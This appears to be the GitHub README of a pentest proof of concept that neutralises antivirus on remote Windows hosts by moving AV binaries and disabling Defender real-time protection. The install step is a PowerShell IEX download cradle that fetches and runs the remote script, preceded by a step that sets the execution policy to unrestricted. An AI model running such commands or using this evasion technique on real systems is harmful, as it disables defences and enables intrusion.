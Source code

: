# Invoke-NeutralizeAV
Quick PoC I Wrote for Bypassing Next Gen AV Remotely for Pentesting

My projects are my own and do not reflect my employer

# Description
I created this PoC based on a recent discovery of mine during a penetration test where I had SYSTEM access but could not stop AV processes or Services.  I found that simply moving the binaries on disk to another directory essentially neutralized the running AV process.  Use this script to effectively shut down AV across an enterprise environment so you can execute your payloads, etc.  There's also an "Enable" switch to set everything back when finished.  I recently added support to remotely and temporarily disable "Real Time Protection" for Windows Defender as well if it's detected on the remote host.

# Instructions
You'll probably want to read the blog first at https://curtbraz.blogspot.com/2018/08/bypassing-next-gen-av-during-pentest.html.  

The assumption is being made that you are first running as SYSTEM or at least a Local or Domain Admin that can elevate to SYSTEM on a Windows OS with PowerShell.  If AV is enabled on the target you plan to run this scipt on, it will likely need to be neutralized first before this can be leveraged to disable remote targets.  See the blog for details.  Soon, I'll provide a BAT file so it's not a manual process.

Paste the following into the elevated CMD prompt to download the PS1 script.  (Note: You may need to first enable scripts on the host with `Set-ExecutionPolicy unrestricted`)

1) `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/curtbraz/Invoke-NeutralizeAV/master/Invoke-NeutralizeAV.ps1')`

2) Enjoy! :)

<p align="center"><img align="center" width="600" alt="Invoke-NeutralizeAV Screenshot" src="https://i.imgur.com/lAyw41i.png?1"></p>

# Closing Thoughts
This is a quick and dirty PoC.  I plan to fix it up and add more functionality soon (host list, CIDR notation, disabling services & other bypass methods first, quiet mode, etc), but hopefully in the meantime this will assist people to more quickly bypass next gen AV on remote hosts during a pentest.  I can't disclose the one AV vendor I know this works against, but I'm hopeful it will work on others.  I would love it if you could report back on what does/doesn't work.  I wrote this script in a dynamic way so I didn't have to keep an ongoing list of current AV Service Names.
